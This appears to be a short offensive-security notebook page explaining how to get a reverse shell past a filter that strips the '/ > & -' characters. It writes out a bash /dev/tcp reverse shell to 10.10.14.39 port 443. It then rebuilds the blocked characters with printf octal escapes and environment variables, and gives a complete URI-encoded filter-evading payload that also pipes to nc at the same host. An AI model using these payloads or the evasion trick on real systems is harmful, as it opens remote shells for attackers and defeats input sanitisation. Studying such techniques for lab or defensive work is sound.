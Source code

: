```yaml
---
description: >-
  Characters '/ > & -' are not processed. But we want a reverse tcp one liner.
  We can workaround these characters using the following methods
---
```


# Using ENV to escape Bad Characters

Basically our reverse shell command /bin/bash -i &gt;& /dev/tcp/10.10.14.39/443 0&gt;&1 will not be executed successfully as / characters are being replaced. How do we get around this? 

If Env contains a variable we can use. For example, the `/` character is being escaped during our exploitation phase to get a reverse shell. 

```bash
# Env contains a variable
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd

```

Looking at the above Env values We can replace `'$(HOME)'` with `/`

And format the `'$LANG'` variable as such IN NON-BSD:

![](../.gitbook/assets/image%20%2830%29.png)

But If the OS is BSD format so we are not able to format it like above, instead we use linux printf

![](../.gitbook/assets/image%20%2823%29.png)

We can test out we will print out a reverse shell command with replaced badcharacters

```bash
# - character
a=$(printf "\55")	

# / character
b=$(printf "\57")	

# & character
c=$(printf "\46")

# > character
d=$(printf "\76")
```

For this example, since the full payload will be URI encoded, the space characters will be encoded as '+'. The reverse shell payload will now be

```text
a=$(printf+"\55");b=$(printf+"\57");c=$(printf+"\46");d=$(printf+"\76");echo+${b}bin${b}bash+${a}i+${d}${c}+${b}dev${b}tcp${b}10.10.14.39${b}443+0${d}${c}1|nc+10.10.14.39+443
```

Which converts successfully to the reverse shell command that was not working previously

![](../.gitbook/assets/image%20%2828%29.png)

